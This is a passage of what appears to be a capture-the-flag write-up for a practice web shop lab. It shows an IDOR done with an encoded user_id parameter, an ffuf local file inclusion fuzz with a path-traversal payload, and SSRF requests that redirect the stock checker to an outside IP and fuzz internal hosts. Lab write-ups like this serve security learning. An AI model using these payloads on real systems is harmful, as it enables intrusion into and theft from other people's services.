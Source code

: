 <br>

* The original request only contained the "what" and "id" parameters that indicate our order number.  Changing the "id" parameter value and rendering the request in the browser will return an error message "Order does not belong to this user_id".

* Simply including the "user_id" field was not working the "&" character needed to be URL encoded, and then render the request/response in the browser.

```
POST /pdf-generator HTTP/1.1
Host: nahamstore.thm
...

what=order&id=3%26user_id=3
```

<br><br><br>

#### Local File Inclusion

```
ffuf -u "http://nahamstore.thm/product/picture/?file=FUZZ" -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 19
```

```
http://nahamstore.thm/product/picture/?file=....//....//....//....//....//....//lfi/flag.txt
```


<br><br><br>

#### SSRF

* SSRF vulnerability was identified in the following request:


```
POST /stockcheck HTTP/1.1
Host: nahamstore.thm
...
product_id=2&server=stock.nahamstore.thm@10.6.44.219:8000#
```


* After confirming the vulnerability we'll have to fuzz for internal APIs:


* Wordlist - /usr/share/wordlists/SecLists/Discovery/DNS/dns-Jhaddix.txt


```
POST /stockcheck HTTP/1.1
Host: nahamstore.thm

product_id=2&server=stock.nahamstore.thm@§§.nahamstore.thm#
```

* After finding the internal site, the responses disclose the endpoints:


